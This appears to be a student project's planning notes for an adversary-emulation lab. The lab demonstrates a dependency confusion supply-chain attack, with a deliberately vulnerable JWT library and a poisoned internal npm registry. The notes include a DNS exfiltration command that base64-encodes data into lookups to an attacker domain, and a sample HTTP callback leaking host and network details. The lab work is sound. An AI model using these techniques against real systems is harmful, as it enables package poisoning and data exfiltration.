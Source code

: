 # Notes and Initial Research

Notes template
```
Resources link:
Idea:
Notes:
```

Please try to stick to the above notes contribution template all though it's not necessary. Since we are in different timezones and remote, it's best to have organized notes.

I have protected the main branch, so any changes will have to go through a PR merge, and before every PR merge, we all (at least 2) will have to review it.

When committing please ensure to add an apt commit message.

## Scenario
This project is intended to apply the MITRE ATT&CK framework and tools to map a cyber incident and then use the Caldera tool to complete an emulation plan. Included into team's tasks is the deployment in the Cloud of a mock-up scenario that represents the system compromised in the cyberincident studied. 

As a result of the project, with the Adversary Emulation Plan is needed to elaborate Threat Report of the incident analized (including a STIX2.1 JSON representation).  


## Dev Env

Resource Link: https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610

Idea: Build an infrastructure for an organization that heavily relies on a JavaScript environment, which can be utilized for implementing Dependency Confusion.

Notes: 

Requirements: 
`2` WebServers each with:

```
RAM: 4GB or more
Storage: Min
```

### Dev-Server-1

```bash
Node: v18.11.0
npm: v8.19.2
pm2: 5.2.2

# The versions can change depending on the time of implementation
```

This would be our ginny pig application, which would have standard features of a generic web-application. Ex: Authentication and messaging (static)

The authentication will be handled using a vulnerable JWT tokens. We plan on using `jsonwebtoken v0.4.0` which will be vulnerable to token signing vulnerability ([CVE-2015-9235](https://nvd.nist.gov/vuln/detail/CVE-2015-9235)). 

```diff 
- Critical issue 1 (Account Takeover)
+ CVSS: 3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

> **Note**  
> STEP1: This will allows us to do perform an account takeover of the admin account, from here we will leak about the source code and name of a private package called: \<private-package-name>



### Dev-Server-2

```bash
Node: v18.11.0
npm: v8.19.2
pm2: v5.2.2
verdaccio: v5.20.1
# The versions can change depending on the time of implementation
```

This will be the internal package managing service like NPM. We will be using [Verdaccio](https://www.npmjs.com/package/verdaccio) for this server.

This is where the internal package will be hosted.

> When the attack will unfold, it will also poison this repository with our malicious package.

```diff 
- High/Critical issue 2
+ CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
# depends based on the amount of compromise a company incurs 
```

> **Note**  
> STEP2: This will allows us to get back a call back over the DNS and/or HTTP requests.


## Attacker Env

This is a separate env from that of Dev, and will require us to `2` server (or `1`) and a domain name get to call backs on.

Requirements: 
`2` WebServers each with:

```
RAM: 4GB or more
Storage: Min
```

Domain name : 
Can be bought from Namecheap for free using the .edu account.

### Attacker-Server-1 

DNS server which will receive call backs based on the domain look ups
(We can use something like: [Bind9](https://www.isc.org/bind/))

Ex of a DNS callback to my own hacker-server
```bash
nslookup $(echo -n "Capstone-test" | openssl base64).X-hacker-X-hackerone.me
Server:         XXXX:XXX:feed::1
Address:        XXXX:XXX:feed::1#53

Non-authoritative answer:
Name:   Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me
Address: <redacted>

### As received on my hacker-server

03-Feb-2023 10:49:16.277 queries: info: client @0x7f61f402a880 <IP-Address>#17232 (Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me): query: Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me IN A -E(0)D (IP-Address)
```

> We are encoding the output with base-64 because of character restrictions for domain-name.

### Attacker-server-2 (Optional)

Instead of having a dedicated server, we can also have a web-hook to receive HTTP call backs:

```h
The path: <path>, Version: Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 GNU/Linux ID: uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),133(scanner),141(kaboxer), IP: <redacted>, Internal IP: 10.0.0.20 172.17.0.1 2601:197:801:2040::7aa 2601:197:801:2040:4d98:e828:740e:c72c 2601:197:801:2040:20c:29ff:febb:36a5 , Tag: altl
```

or we can use [ngrok](https://ngrok.com/) to receive call-backs on our system which can be on our own computers.

I have penned down a very simple overview of the attack here: (please ignore my shabby handwriting)
[attack-explained](./public/docs/attack-explained.pdf)


